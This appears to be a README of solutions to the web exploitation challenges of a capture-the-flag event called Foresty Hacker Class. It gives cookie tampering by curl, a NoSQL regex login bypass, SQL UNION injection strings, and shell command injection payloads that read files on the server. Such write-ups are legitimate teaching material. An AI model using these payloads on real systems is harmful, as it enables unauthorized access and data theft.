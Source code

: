 # Foresty Hacker Class - Solutions

## List of Challenges
* **Web Exploitation**
  * [Fortune Cookies](#fortune-cookies)
  * [Mongkey](#mongkey)
  * [ezqlite](#ezqlite)
  * [figl33t](#figl33t)
  * [Haiku](#haiku)

## Solutions
### Fortune Cookies
Category: Web Exploitation
Description:
```
Would you like to have some fortune cookies?

http://103.167.136.89:10088/

Author: bleedz#0666 (Discord) / @bl33dz (Tele)
```
Hint:
`https://www.cloudflare.com/learning/privacy/what-are-cookies/`
Solution:
- Visit link given and you will be greeted with a page with a button to get a fortune cookie.
- Inspect the cookies and you will see a cookie named `flag` with a value of `0`.
- Change the value of the cookie to `1` and click the button to get the flag.
- Or, you can use curl to solve this problem.
`curl http://103.167.136.89:10088/ -XPOST --data "submit=" -b 'flag=1' -s | grep ForestyHC`

### Mongkey
Category: Web Exploitation
Description:
```
Can you login as admin?

http://103.167.136.89:10002/

guest:guest

PS: No need to brute force using wordlists

Author: bleedz#0666 (Discord) / @bl33dz (Tele)
```
Hint:
```
Do you know if it is possible to post an array in PHP?

I use MongoDB btw
```
Solution:
- There is a login form with NoSQL Injection vulnerability.
- Enumerate `admin` password using regex.
`username[$eq]=admin&password[$regex]=ForestyHC.*`
- Reference: https://book.hacktricks.xyz/pentesting-web/nosql-injection

Solver:
- [solver_mongkey.py](/solvers/solver_mongkey.py)

### ezqlite
Category: Web Exploitation
Description:
```
It's just a simple website, nothing strange right?

http://103.167.136.89:10031/

Author: bleedz#0666 (Discord) / @bl33dz (Tele)
```
Attachment:
- [app_ezqlite.py](/attachments/app_ezqlite.py)

Solution:
- There is a SQL Injection vulnerability in the `search` parameter.
- Enumerate tables and columns using this payload.
`x%' uNioN seleCt 1,sql,3 from sqlite_master '`
- There is a lot fake flag in the tables, so we need to filter it using `WHERE` clause.
`x%' uNioN seleCt 1,flag,3 from flag_1 where flag not liKe '%fake_flag`
- Try to change table flag_1 to flag_2, flag_3, etc.
- You will get the flag in flag_3 table.
`x%' uNioN seleCt 1,flag,3 from flag_3 where flag not liKe '%fake_flag`

### figl33t
Category: Web Exploitation
Description:
```
My friend really likes ascii art. So I created this website for her.

http://103.167.136.89:10056/

Author: bleedz#0666 (Discord) / @bl33dz (Tele)
```
Attachment:
- [app_figl33t.js](/attachments/app_figl33t.js)

Solution:
- There is a Command Injection vulnerability in the `/figlet` endpoint.
- Use this payload to list all files in the `/` directory.
`'; ls -la /; echo '`
- Then, use this payload to read the flag.
`'; cat /flag*; echo '`

### Haiku
TODO